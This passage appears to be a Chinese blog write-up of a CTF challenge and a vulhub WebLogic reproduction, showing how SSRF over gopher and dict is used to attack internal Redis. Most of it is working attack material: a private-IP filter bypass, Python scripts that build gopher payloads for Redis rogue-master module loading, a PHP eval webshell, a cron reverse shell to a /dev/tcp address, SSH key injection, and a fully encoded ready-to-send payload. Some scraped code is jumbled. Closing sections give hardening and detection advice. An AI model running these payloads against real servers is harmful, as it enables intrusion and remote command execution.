($ch , CURLOPT_URL, $url );curl_setopt ($ch , CURLOPT_RETURNTRANSFER, 1 );curl_setopt ($ch , CURLOPT_HEADER, 0 );$output = curl_exec ($ch );$result_info = curl_getinfo ($ch );if ($result_info ['redirect_url' ])safe_request_url ($result_info ['redirect_url' ]);curl_close ($ch );var_dump ($output );if (isset ($_GET ['url' ])){$url = $_GET ['url' ];if (!empty ($url )){safe_request_url ($url );else {highlight_file (__FILE__ );?>
这里的重点就是针对url的检查，其中的对于用到的协议他规定只能是http、https、gopher与dict，但我们重点需要绕过的是这个：
1 2 return ip2long ('127.0.0.0' )>>24 == $int_ip >>24 || ip2long ('10.0.0.0' )>>24 == $int_ip >>24 || ip2long ('172.16.0.0' )>>20 == $int_ip >>20 || ip2long ('192.168.0.0' )>>16 == $int_ip >>16 ;
这里是将一个标准ip地址转换为二进制形式的长字符串，然后与这里规定的127.0.0.1、10.0.0.0、172.16.0.0、192.168.0.0进行比较，如果有一个为真，则证明标志的ssrf的攻击
1 2 3 4 0000 0000 0000 0000 0000 0000 0000 1000 0000 0000 0000 0000 0000 0000 0000 0010
这里绕过似乎也挺简单的，就是0.0.0.0即可，然后根据题目提示让我们查看hint.php
1 ?url=http://0.0.0.0/hint.php
1 2 3 4 5 6 7 <?php if ($_SERVER ['REMOTE_ADDR' ]==="127.0.0.1" ){highlight_file (__FILE__ );if (isset ($_POST ['file' ])){file_put_contents ($_POST ['file' ],"<?php echo 'redispass is root';exit();" .$_POST ['file' ]);
随后就是通过file_put_contents函数处理post传参，并且代码中提示我们redis的密码是root，这也提示我们这道题考察的就是如何通过ssrf攻击redis

这里验证也说明6379的存在，接下来先尝试向其中加载恶意.so ，不过需要注意密码的验证，payload如下：
1 2 3 4 5 6 auth root #用户认证.so #设置备份文件名.so #从我们的恶意主redis上加载恶意exp.so .rev vpsip vpsport #执行system命令，进行反弹shell
但这道题用到的是ssrf，所以上脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from urllib.parse import quoteimport requests"""auth root config set dir /tmp config set dbfilename exp.so slaveof vps port module load /tmp/exp.so system.rev vpsip vpsport """ f"gopher://0.0.0.0:6379/_{quote(quote(payload))} " print (inner_url)
发送之前，我们先准备好恶意master，且必须是公网的vps，这里推荐项目：
https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server/blob/master/redis_rogue_server.py
上面这个用于需要授权的redis攻击使用
https://github.com/n0b0dyCN/redis-rogue-server --这个用于目标redis是未授权的时候使用
这里我们输入如下命令，这里需要将恶意exp.so文件放入redis-rogue-server.py同目录下
1 2 python3 redis_rogue_server.py -path exp.so -lhost vps -lport 5555
这里实际上我们是等待被动连接，这里开启了上述服务后，我们构造命令发送
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from urllib.parse import quoteimport requests"""auth root module load /tmp/exp.so system.rev vps 8888 quit """ f"gopher://0.0.0.0:6379/_{quote(quote(payload))} " print (inner_url)
这里我是分了两批payload发送，一起发送也是可以的，不过就得发送两次了，这里将得到的payload发送到ssrf漏洞点，接着就会发现我们的恶意服务收到了连接请求，但要注意在vps上开启接受反弹shell的端口。
最后就会发现我们成功拿到shell，这里不知为何截图都没了，懒得在搞了。
吐槽一手：buu题目环境害人啊，我一直不成功，还以为是我思路有问题，一直想不出来。。。。
Weblogic SSRF漏洞
简介
WebLogic是美国Oracle公司出品的一个application server确切的说是一个基于JAVAEE架构的中间件，BEA WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。
影响范围：
1 2 3 weblogic 版本10.0.2
漏洞复现
复现环境：https://vulhub.org/#/environments/weblogic/ssrf/

如上图代表成功启动，这里我们直接bp抓个包，这里我先用dirsearch扫个目录

可以发现还是有很多的，这里测试一番发现uddi这个目录很可疑

如上图，这里似乎是个未授权访问，点击第一个连接的search抓包发现，如下图存在一个url链接

这里修改个参数值为127.0.0.1，如下图发现其好像在尝试连接这个地址，我们探测一下端口存活情况
bp爆破端口之后发现下图，这里并没有探测到什么重点端口，这里我就不会了，看了wp发现，比我想的更复杂，这里需要探测内网。。而我只是单纯探测个端口而已
这里顺便补充一个资料：2016乌云大会上猪猪侠师傅介绍的《WebLogic SSRF 服务探测》

接下来就进行内网ip的探测，不过这里需要注意的是我们是用docker搭建的，因此探测的时候应该使用docker的ip段来探测

我们开始设置爆破格式，自定义迭代器的payload类型

这里在1中输入172，然后下方添加.分隔符
位置2填入17与分隔符. 这里搞错了，对我的靶机来说是该填入19的

位置三设置0-255与分隔符. 然后位置4设置0-255，但不需要设置分隔符
开始爆破，结果如下图所示，这里的爆破就说明我们的ip是存在的，但是对应的端口不存在，那我们直接探测该ip的端口存活情况即可

设置好开始爆破，如下图所示，这里的报错说明我们的端口是存活的
Weblogic的SSRF有一个比较大的特点，就是我们可以通过传入%0a%0d来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
那接下来我们尝试写入定时任务反弹shell
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 try :from urllib import quoteexcept :from urllib.parse import quotedef generate_info (passwd ):"info" ,"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef generate_shell (filename, path, passwd, payload ):"flushall" ,"set 1 {}" .format (payload),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" ,"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef generate_reverse (filename, path, passwd, payload ): "flushall" ,"set 1 {}" .format (payload),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" ,"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef generate_sshkey (filename, path, passwd, payload ):"flushall" ,"set 1 {}" .format (payload),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" ,"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef generate_rce (lhost, lport, passwd, command="cat /etc/passwd" ):"exp.so" "SLAVEOF {} {}" .format (lhost, lport),"CONFIG SET dir /tmp/" ,"config set dbfilename {}" .format (exp_filename),"MODULE LOAD /tmp/{}" .format (exp_filename),"system.exec {}" .format (command.replace(" " , "${IFS}" )),"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef rce_cleanup ():"exp.so" "SLAVEOF NO ONE" ,"CONFIG SET dbfilename dump.rdb" ,"system.exec rm /tmp/{}" .format (exp_filename).replace(" " , "${IFS}" ),"MODULE UNLOAD system" ,"quit" if passwd:0 , "AUTH {}" .format (passwd))return cmddef redis_format (arr ):"\r\n" " " )"" "*" + str (len (redis_arr))for x in redis_arr:"$" + str (len ((x))) + CRLF + xreturn cmddef generate_payload (passwd, mode ):"test" if mode == 0 :"shell.php" "/var/www/html" "\n\n<?=eval($_GET[0]);?>\n\n" elif mode == 1 :"root" "/var/spool/cron/" "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.246.130/5555 0>&1\n\n" " " , "^" ))elif mode == 2 :"authorized_keys" "/root/.ssh/" "\n\nssh-rsa " " " , "^" ))elif mode == 3 :"124.220.233.26" "5555" "ls /" elif mode == 31 :elif mode == 4 :"gopher://" "0.0.0.0" "6379" ":" + port + "/_" for x in cmd:"^" , " " )))return payloadif __name__ == "__main__" :1 '' print (p)
选择模式1，这里只需要一次编码即可
1 aaa%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2461%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/192.168.246.130/5555%200%3E%261%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0Aaaa

如上图成功反弹shell，这里有点懵逼的是，我看那些师傅都在payload前后加个aaa的无用字符，不知道为何，我这里删除之后测试，依旧可以反弹shell。。。搜了多个文章也无果，希望日后可以解惑吧
1 docker exec -it 4 cfd33d77a1c ip addr
这里我们可以通过上述命令来得知docker容器的ip地址。
0x07 修复建议
① Redis设置访问白名单(入 防止恶意访问和出 防止恶意设置为主从)
② Redis添加认证
1 2 3 在配置文件/etc/redis/redis.conf中修改requirepasss属性为强口令，完成后重启服务器
③ 重命名相关命令
1 2 3 在配置文件/etc/redis/redis.conf中
对于恶意特征，可以通过MODULE LIST命令查看当前加载的模块信息，重点关注非官方加载或者SYSTEM、EXEC等恶意关键词，监控Redis服务器上Redis进程写入的so文件（Windows为DLL文件），流量中可以重点关注FULLRESYNC命令以及相关文件二进制特征（Webshell，Cron，Authorized_keys，so和DLL等）。
0x08 知识总结
Dict协议使用注意事项
Dict协议中可以用:代替空格
?会截断后面的内容(写马的情况下要想办法bypass “?”)
dict协议一次只能发送一条数据
crontab写入Tips
/etc/crontab/etc/cron.d/*：将任意文件写到该目录下，效果和crontab相同，格式也要一致，并且在该目录操作可以做到不覆盖任何其他文件的情况进行弹shell；/var/spool/cron/root：CentOS系统下root用户的cron文件；/var/spool/cron/crontabs/root：Debian系统下root用户的cron文件；
0x09 参考文章
redis 主从复制 RCE
浅析Redis中SSRF的利用
Redis主从复制RCE影响分析
服务端请求伪造（SSRF）之Redis篇
SSRF+Redis
利用SSRF攻击内网Redis服务
服务端请求伪造（SSRF）之Redis篇
Redis主从复制RCE分析
很经典的一道CTF-WriteUP[网鼎杯 2020 玄武组]SSRFMe
利用WebLogic SSRF漏洞攻击内网Redis反弹shell
SSRF中Redis的利用
WebLogic SSRF（CVE-2014-4210）
SSRF——weblogic vulhub 漏洞复现及攻击内网redis（一）（附批量检测脚本）